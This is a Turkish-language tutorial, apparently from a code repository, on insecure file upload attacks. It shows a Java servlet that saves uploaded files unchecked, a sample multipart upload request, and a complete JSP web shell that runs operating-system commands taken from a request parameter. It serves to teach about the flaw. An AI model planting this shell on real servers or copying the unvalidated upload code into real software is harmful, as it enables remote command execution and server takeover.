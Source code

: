 # Giriş

Güvensiz dosya yükleme saldırıları, sunucuya zararlı dosyaların kullanıcı tarafından yüklenebilmesi ve daha sonra **sunucu üzerinde çalıştırılması** ile yapılan saldırılardır.

Aşağıda güvensiz dosya yükleme yapılan örnek bir uygulamadaki ilgili kod bloğu verilmiştir.

| <p><strong>Protected void doPost(HttpServletRequest …){</strong></p><p>            <strong>Part filePart = request.getPart("file");</strong></p><p>            <strong>String fileName = UploadedPath + getFileName(filePart);</strong></p><p>            <strong>InputStream fileContent = filePart.getInputStream();</strong></p><p>            <strong>OutputStream out = new FileOutputStream(fileName);</strong></p><p> <strong></strong> </p><p>            <strong>int read = 0;</strong></p><p>            <strong>byte[] bytes = new byte[1024];</strong></p><p>            <strong>while ((read = fileContent.read(bytes)) != -1)</strong></p><p>                        <strong>out.write(bytes, 0, read)</strong></p> |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

**Örnek dosya yükleme HTTP isteği;**

| <p><strong>POST /UploadDownload/UploadServlet HTTP/1.1</strong></p><p><strong>Host: localhost:8084</strong></p><p><strong>User-Agent: Mozilla/5.0 (Windows NT 6.1;) Firefox/18.0</strong></p><p><strong>Accept-Encoding: gzip, deflate</strong></p><p><strong>Content-Type: multipart/form-data; boundary=-14924204829836</strong></p><p><strong>Content-Length: 6172</strong></p><p><strong>--------------------------------14924204829836</strong></p><p><strong>Content-Disposition: form-data; name=”file”; filename=”sleepy.jpg”</strong></p><p><strong>Content-Type: image/jpeg</strong></p> |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

Yukarıdaki istekte geçerli bir dosya yükleme işleminde resim dosyası yüklenmiştir. Saldırgan bu resim dosyasının içeriğine Java uygulamalarda çalışabilecek JSP Shell ekleyerek, sunucu üzerinde uygulamanın çalıştığı kullanıcının yetkisi ile komutlar çalıştırabilir, sunucuda yetkileri dışında işlemler yapabilir. Bu sayede saldırgan sunucu üzerindeki shell ortamını kendi tarayıcısı üzerinden kontrol edebilir.

| <p><strong>&#x3C;%@ page import="java.util.*,java.io.*"%></strong></p><p><strong>&#x3C;%</strong></p><p><strong>%></strong></p><p><strong>&#x3C;HTML>&#x3C;BODY></strong></p><p><strong>Commands with JSP</strong></p><p><strong>&#x3C;FORM METHOD="GET" NAME="myform" ACTION=""></strong></p><p><strong>&#x3C;INPUT TYPE="text" NAME="cmd"></strong></p><p><strong>&#x3C;INPUT TYPE="submit" VALUE="Send"></strong></p><p><strong>&#x3C;/FORM></strong></p><p><strong>&#x3C;pre></strong></p><p><strong>&#x3C;%</strong></p><p><strong>if (request.getParameter("cmd") != null) {</strong></p><p>    <strong>out.println("Command: " + request.getParameter("cmd") + "&#x3C;BR>");</strong></p><p>    <strong>Process p;</strong></p><p>    <strong>if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){</strong></p><p>        <strong>p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));</strong></p><p>    <strong>}</strong></p><p>    <strong>else{</strong></p><p>        <strong>p = Runtime.getRuntime().exec(request.getParameter("cmd"));</strong></p><p>    <strong>}</strong></p><p>    <strong>OutputStream os = p.getOutputStream();</strong></p><p>    <strong>InputStream in = p.getInputStream();</strong></p><p>    <strong>DataInputStream dis = new DataInputStream(in);</strong></p><p>    <strong>String disr = dis.readLine();</strong></p><p>    <strong>while ( disr != null ) {</strong></p><p>    <strong>out.println(disr);</strong></p><p>    <strong>disr = dis.readLine();</strong></p><p>    <strong>}</strong></p><p><strong>}</strong></p><p><strong>%></strong></p><p><strong>&#x3C;/pre></strong></p><p><strong>&#x3C;/BODY>&#x3C;/HTML></strong></p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
